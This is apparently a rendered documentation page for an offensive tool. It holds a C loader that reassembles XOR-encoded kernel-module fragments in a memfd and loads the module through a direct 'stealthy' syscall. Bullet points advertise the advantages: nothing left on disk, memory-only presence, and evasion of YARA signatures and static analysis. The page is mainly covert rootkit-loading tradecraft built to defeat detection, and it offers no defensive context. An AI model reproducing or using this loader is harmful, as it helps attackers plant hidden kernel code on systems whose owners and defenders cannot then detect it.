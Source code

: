 #### Complete Loading Workflow

```c
int main(int argc, char *argv[]) {
    // 1. Load fragments
    Fragment fragments[MAX_FRAGMENTS] = {0};
    int num_fragments = 0;
    load_fragments(fragments_dir, fragments, &num_fragments);
    
    // 2. Parse metadata (get XOR key)
    uint8_t xor_key[XOR_KEY_SIZE] = {0};
    int is_encoded = 0;
    parse_metadata(fragments_dir, xor_key, &is_encoded);
    
    // 3. Create memfd
    int memfd = create_memfd("module");
    
    // 4. Reconstruct module in memfd
    for (int i = 0; i < num_fragments; i++) {
        uint8_t *data = fragments[i].data;
        size_t size = fragments[i].size;
        
        // Decode if necessary
        if (is_encoded) {
            xor_decode(data, size, xor_key, XOR_KEY_SIZE);
        }
        
        // Write to memfd
        write(memfd, data, size);
    }
    
    // Reset FD position
    lseek(memfd, 0, SEEK_SET);
    
    // 5. Load module via direct syscall
    load_module_stealthy(memfd, module_params, MODULE_FLAGS);
    
    // 6. Cleanup
    close(memfd);
    return 0;
}
```

Advantages of This Approach:

- No .ko file on disk after compilation
- Fragments can be deleted after loading
- Memory-only module existence

Static Analysis Resistance:

- Individual fragments don't match YARA signatures
- XOR encoding breaks pattern matching
- No complete ELF structure visible on disk
